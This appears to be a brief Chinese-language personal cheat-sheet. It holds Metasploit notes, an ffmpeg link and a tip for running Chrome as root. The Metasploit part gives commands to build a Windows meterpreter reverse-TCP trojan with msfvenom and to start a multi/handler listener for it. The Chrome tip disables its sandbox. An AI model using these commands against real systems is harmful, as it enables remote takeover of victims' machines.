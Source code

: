 ## msfconsole
use multi/handler
set LHOST IP
set LPORT 端口
exploit
开始监听

## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe -o 路径` 可以在 msfconsole 中使用
## ffmpeg
一个视频提帧的应用
[https://www.jianshu.com/p/ddafe46827b7](https://www.jianshu.com/p/ddafe46827b7)
## root 用户
闪退：权限过高
`/opt/google/chrome/google-chrome`
最后一行添加 `--no-sandbox`

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwNTkxNDg3OCwyMDkyMjg4NjYwLDEyND
I0MjI1MTYsMTg4ODEwMTg4MSw3MzUxNjQ3NTJdfQ==
-->